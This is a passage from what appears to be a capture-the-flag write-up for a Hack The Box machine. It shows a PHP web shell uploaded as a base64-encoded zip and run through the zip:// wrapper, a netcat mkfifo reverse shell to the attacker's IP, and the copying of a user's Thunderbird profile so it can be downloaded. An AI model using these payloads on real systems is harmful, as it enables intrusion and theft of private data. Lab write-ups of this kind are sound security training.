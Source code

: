 ### Getting command execution

As those files don't get the _.php_ extension, a **PHP wrapper** has to be used so the script gets executed. I will use the [ZIP compression wrapper for PHP](https://www.php.net/manual/de/wrappers.compression.php).

Creating a malicious _cmd.php_ PHP script:
```markdown
<?php echo system($\_REQUEST['test']); ?>
```

Compressing it with `zip`:
```markdown
zip cmd.zip cmd.php
```

The _cmd.zip_ has to be uploaded correctly on the box. To do that converting it to a Base64 string is helpful:
```markdown
base64 -w 0 cmd.zip

# Output
UEsDBAoAAAAAAPx1zVAoVK/eKQAAACkAAAAHABwAY21kLnBocFVUCQAD+8rkXgjL5F51eAsAAQQAAAAABAAAAAA8P3BocCBlY2hvIHN5c3RlbSgkX1JFUVVFU1RbJ3Rlc3QnXSk7ID8+ClBLAQIeAwoAAAAAAPx1zVAoVK/eKQAAACkAAAAHABgAAAAAAAEAAACkgQAAAABjbWQucGhwVVQFAAP7yuRedXgLAAEEAAAAAAQAAAAAUEsFBgAAAAABAAEATQAAAGoAAAAAAA==
```

Sending string as a request after decoding it with **Burpsuite**:

![Request in Burpsuite](https://kyuu-ji.github.io/htb-write-up/crimestoppers/crimestoppers_web-4.png)

Sending the request and the file _cmd.zip_ will be accessible on the box but with the hash name.
Now we can use the ZIP PHP wrapper to access the file and execute commands:
```markdown
http://10.10.10.80/?op=zip://uploads/10.10.14.10/4e8ba9796680f1631436ca74e8a921d29aee53dd%23cmd&test=whoami
```

This outputs the username _www-data_. Lets start a reverse shell on the box:
```markdown
GET /?op=zip://uploads/10.10.14.10/4e8ba9796680f1631436ca74e8a921d29aee53dd%23cmd&test=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.10 9001 >/tmp/f

# URL-encoded
GET /?op=zip://uploads/10.10.14.10/4e8ba9796680f1631436ca74e8a921d29aee53dd%23cmd&test=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.10+9001+>/tmp/f
```

Now it started a reverse shell session as _www-data_.

## Privilege Escalation

There is one home directory from user _dom_ that can be accessed by us. In her home directory is a hidden _.thunderbird_ directory which could be useful to escalate privileges to her.
Compressing the **Thunderbird** profile with `tar` and put it into _/var/www/html/uploads/10.10.14.10/_ to download it to our local client:
```markdown
tar -cjvf /var/www/html/uploads/10.10.14.10/firefox.tar.bz2 36jinndk.default/
```
